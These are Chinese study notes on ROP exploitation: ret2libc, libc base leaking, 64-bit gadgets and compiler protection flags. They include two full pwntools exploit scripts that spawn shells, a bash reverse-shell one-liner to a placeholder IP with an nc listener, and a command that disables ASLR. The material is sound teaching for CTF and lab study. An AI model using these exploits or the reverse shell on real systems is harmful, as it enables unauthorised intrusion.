

NTU STCS 2016学习笔记 0x03 ROP2
ret2syscall
- 跳.plt entry
- 函数参数直接放到接下来的stack
- 用pop-ret处理用过的参数

ret2libc
- printf,gets,puts等函数所在位置:libc.so.6
- 直接用rop call libc 的system
- 用条件
- libc版本或者fuction的offset已知
- ASLR开启情况
Dynamically Linded Elf 动态链接库相关操作
# 获取libc路径
ldd ./binary
# 查看libc中的相对位置
# trick 使用 | grep ' system@'来查看想找的symbol
readelf -s /lib32/libc.so.6 | grep ' system@'
# 指定加载的libc位置
LD_LIBRARY_PATH=./path/to/libc
Function Lazy Binding
library在binary执行时才加载，第一次call function时解析函数位置填入.got.plt
推算libc base addr
- 函数在libc的相对位置不变
- 使用readelf得知__libc_start_main和system在libc的相对位置
- 使用任意输入函数print出__libc-start_main的.got内容，推算system在内存的addr
- 用rop构造puts(__libc_start_main@got)
- 要leak的got entry,对应的function必须已经被call过
- 前提：已有或已知远端libc.so.6版本
Libc Data Base
-
已知两个function的address时可以在libcdb里找对应的版本
✘网站：libcdb.com:the libc data base- ✘网站：libc.nullbyte.cat
- ✔使用LibcSearcher
from LibcSearcher import * #第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型 obj = LibcSearcher("fgets", 0X7ff39014bd90) obj.dump("system") #system 偏移 obj.dump("str_bin_sh") #/bin/sh 偏移 obj.dump("__libc_start_main_ret")
Leak libc base 一般leak __libc_start_main的地址，通过LibcSearcher获取system与/bin/sh的地址，再跳转回main触发溢出执行system(’/bin/sh’)
例子：ret2libc3
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')
ret2libc3 = ELF('./ret2libc3')
puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)
print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)
sh.interactive()
trick:开启reverse tcp shell(web同时适用) system(“bash -c ‘bash -i >& /dev/tcp/to.your.ip.addr/31337 0>&1’”)
# system("bash -c 'bash -i >& /dev/tcp/127.0.0.1/31337 0>&1'")
nc -vlp 31337
ROP for x86-64
64-bin ROP
- syscall 要用rax,rdi,rsi,rdx,rcx,r8,r9,syscall
- Function call参数传递适用寄存器而不是栈 rdi,rsi,rdx,rcx,r8,r9
- 需要用pop-ret控制register，再接function address
64-bit register
- rax,rcx,rdx,rbx,rsp,rbp,rsi,rdi
- r8-r15是用前8个加上rex prefix来表示
- r12-r15是callee saved，所以pop r12 - r15在function return前很常见
- pop r14 = 415e / pop rsi = 5e
- pop r15 = 415f / pop rdi = 5f
ROPgadget ROPgadget预设的搜索长度对64位来说可能不太够，需要增加–depth
ROPgadget --binary ./binary --depth 100
通用gadget
- 64bit rop需要gadget控制参数
- gcc的程序中有一些片段一定会有，可以用来做rop，构造ret2lib不是问题


De-ASLR with ROP Calculate Runction Address without Information Leakage

Linux 常用保护机制开关方法
# cannary 栈保护
gcc -o test test.c # 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c #禁用栈保护
gcc -fstack-protector -o test test.c #启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c #启用堆栈保护，为所有函数插入保护代码
# FORTIFY 检查是否存在缓冲区溢出的错误
gcc -o test test.c #默认情况下，不会开这个检查
gcc -D_FORTIFY_SOURCE=1 -o test test.c #较弱的检查
gcc -D_FORTIFY_SOURCE=2 -o test test.c #较强的检查
# NX（DEP）No-eXecute
gcc -o test test.c #默认情况下，开启NX保护
gcc -z execstack -o test test.c #禁用NX保护
gcc -z noexecstack -o test test.c #开启NX保护
# PIE（ASLR）
# liunx下关闭PIE的命令
sudo -s echo 0 > /proc/sys/kernel/randomize_va_space
# gcc编译命令
gcc -o test test.c #默认情况下，不开启PIE
gcc -fpie -pie -o test test.c #开启PIE，此时强度为1
gcc -fPIE -pie -o test test.c #开启PIE，此时为最高强度2
gcc -fpic -o test test.c #开启PIC，此时强度为1，不会开启PIE
gcc -fPIC -o test test.c #开启PIC，此时为最高强度2，不会开启PIE
# RELRO
gcc编译：
gcc -o test test.c #默认情况下，是Partial RELRO
gcc -z norelro -o test test.c #关闭，即No RELRO
gcc -z lazy -o test test.c #部分开启，即Partial RELRO
gcc -z now -o test test.c #全部开启，即full RELRO
#!/usr/bin/env python
from pwn import *
# context.log_level = 'debug'
context.arch = 'amd64'
local = 1
if local:
p = process('./gets')
# p = remote('127.0.0.1', 4000)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
p = remote('10.21.13.69', 10010)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./gets')
g = lambda x: next(elf.search(asm(x)))
system_offset = libc.symbols['system']
gets_offset = libc.symbols['gets']
offset = system_offset - gets_offset
if offset < 0:
offset &= 0xffffffff
gets_plt = elf.plt['gets']
gets_got = elf.got['gets']
libc_csu_init = elf.symbols['__libc_csu_init']
pop_rsp_r13_r14_r15_ret = g('pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret')
pop_rbp_ret = g('pop rbp ; ret')
pop_rdi_ret = g('pop rdi ; ret')
pop_r15_ret = g('pop r15 ; ret')
pop_rsi_r15_ret = g('pop rsi ; pop r15 ; ret')
pop_rbp_r14_r15_ret = g('pop rbp ; pop r14 ; pop r15 ; ret')
pop_rbx_rbp_r12_r13_r14_r15_ret = g('pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret')
add_ebx_esi_ret = g('add ebx, esi ; ret')
leave_ret = g('leave ; ret')
call_at_r12 = g('call QWORD PTR [r12+rbx*8]')
# gdb.attach(p)
bss = 0x602000
buf1 = bss - 0x100
buf2 = bss - 0x200
buf3 = bss - 0x300
buf4 = bss - 0x400
buf5 = bss - 0x500
buf6 = bss - 0x600
buf7 = bss - 0x700
buf8 = bss - 0x800
rop1 = [
pop_rdi_ret, buf1, gets_plt, # rop2
pop_rdi_ret, buf2, gets_plt, # rop4
pop_rdi_ret, buf3, gets_plt, # rop5
pop_rdi_ret, buf4, gets_plt, # rop7
pop_rdi_ret, buf5, gets_plt, # rop9
pop_rdi_ret, buf6, gets_plt, # rop10
pop_rdi_ret, buf7, gets_plt, # rop13
pop_rbp_ret, buf1 - 8, leave_ret
]
rop2 = [ # buf1
pop_rdi_ret, gets_got + 24, gets_plt, # rop3
pop_rbp_ret, buf2 - 8,
pop_rsp_r13_r14_r15_ret, gets_got
]
rop3 = [ # gets_got + 24
leave_ret
]
rop4 = [ # buf2
libc_csu_init,
pop_rbp_ret, buf3 - 8, leave_ret
]
rop5 = [ # buf3
pop_rdi_ret, buf2 - 24, gets_plt, # rop6_1
pop_rdi_ret, buf2 + 32, gets_plt, # rop6_2
pop_rbp_ret, buf2 - 24 - 8, leave_ret
]
rop6_1 = [ # buf2 - 24
pop_rbx_rbp_r12_r13_r14_r15_ret
]
rop6_2 = [ # buf2 + 32
pop_rsi_r15_ret, offset, 8,
add_ebx_esi_ret,
# 0xdeadbeef,
libc_csu_init,
pop_rbp_ret, buf4 - 8, leave_ret
]
rop7 = [ # buf4
pop_rdi_ret, gets_got + 28, gets_plt, # rop8
pop_rbp_ret, buf5 - 8,
pop_rsp_r13_r14_r15_ret, gets_got + 4
]
rop8 = [ # gets_got + 28
leave_ret
]
rop9 = [ # buf5
libc_csu_init,
pop_rbp_ret, buf6 - 8, leave_ret
]
rop10 = [ # buf6
pop_rdi_ret, buf5 - 24, gets_plt, # rop11_1
pop_rdi_ret, buf5 + 32, gets_plt, # rop11_2
pop_rbp_ret, buf5 - 24 - 8, leave_ret
]
rop11_1 = [ # buf5 - 24
pop_rbx_rbp_r12_r13_r14_r15_ret
]
rop11_2 = [ # buf5 + 32
pop_rdi_ret, buf2 + 68, gets_plt, # rop12
pop_rbp_ret, buf2 + 68 - 8, leave_ret
]
rop12 = [ # buf2 + 164
libc_csu_init,
pop_rbp_ret, buf7 - 8, leave_ret
]
rop13 = [
pop_rdi_ret, buf8, gets_plt, # shell command
pop_rdi_ret, buf8,
pop_rbx_rbp_r12_r13_r14_r15_ret, 0, 0, buf2 + 24, 0, 0, 0,
call_at_r12
]
payload = (
'A' * 24 +
''.join(map(p64, rop1)) + '\n' +
''.join(map(p64, rop2)) + '\n' +
''.join(map(p64, rop4)) + '\n' +
''.join(map(p64, rop5)) + '\n' +
''.join(map(p64, rop7)) + '\n' +
''.join(map(p64, rop9)) + '\n' +
''.join(map(p64, rop10)) + '\n' +
''.join(map(p64, rop13)) + '\n' +
''.join(map(p64, rop3))[:-1] + '\n' +
''.join(map(p64, rop6_1))[:-1] + '\n' +
''.join(map(p64, rop6_2)) + '\n' +
''.join(map(p64, rop8)) + '\n' +
''.join(map(p64, rop11_1))[:-1] + '\n' +
''.join(map(p64, rop11_2)) + '\n' +
''.join(map(p64, rop12)) + '\n' +
'sh\n'
)
p.send(payload)
p.interactive()